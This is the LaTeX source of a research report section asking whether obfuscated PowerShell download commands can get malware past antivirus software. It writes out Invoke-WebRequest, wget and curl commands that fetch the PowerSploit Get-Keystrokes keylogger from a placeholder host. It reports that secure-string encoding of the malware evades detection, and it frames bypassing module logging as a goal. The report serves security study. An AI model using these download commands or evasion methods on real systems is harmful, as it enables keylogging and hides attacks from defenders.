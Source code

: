 \documentclass{article}%
\begin{document}
\subsection{Is it possible to bypass antivirus software,in order to download malware, by obfuscating the download command in powershell?"}
This question comes forth when looking at how McAfee is blocking the \textbf{Invoke-Expression} when used together with the \textit{Downloadstring} function. To test this the malware called Get-Keystrokes from [\hypertarget{8}{8}]PowerSploit was used. This scriptfile is immediately seen as a virus by Win Defender, AVG and McAfee. The commands used inorder to download the scripts were:\\
\begin{verbatim}
Invoke-WebRequest "http://IPAddress:Port/Get-Keystrokes.ps1" 
      -o "Get-Keystrokes.ps1"
wget "http://IPAddress:Port/Get-Keystrokes.ps1" -o "Get-Keystrokes.ps1"
curl "http://IPAddress:Port/Get-Keystrokes.ps1" -o "Get-Keystrokes.ps1"
\end{verbatim}
Many different iterations of the obfuscation tools were used, with the focus on [\hyperlink{1}{1}]Token,AST,String and Encoding. The answer was very clear, all antivirus programs were able to detect the malware before it got downloaded and blocked it one hundred percent of the time. On the other hand, when \textbf{secure-string} encoding is used, the script could be easily downloaded without notifying any AV program.
\subsubsection{Conclusion}
It does not seem to be possible to obfuscate the download command inorder to download malware that otherwise would have been blocked. However it is fairly simple to get malware on the system by encoding the malware itself. This could be a problem when it comes to other types of malware.
\subsection{Does the powershell logging tool detect obfuscated commands? If so then, how hard is it to bypass it.}
Powershell script logging is used by forensics teams to find what the attackers intentions were. [\hyperlink{8}{8}] But thanks to continuous development of the scriplogging tool, it is now also possible to detect an attack using by using the module logging and scriptblock logging tool (available in powershell v5 or later).
\subsubsection{Powershell Module Logging}
[\hyperlink{9}{9}] Module Logging has been available since powershell v3. This logging tool logs command invocations, which can be very useful since some command invocations, such as "IEX SomeString", immediately raise suspicion. This tool logs these commands sometimes even if the command has been obfuscated. There are multiple log analysis tools that make use of the logs created by module logging to alert a server manager. Therefore bypassing the module logging is important.
\end{document}
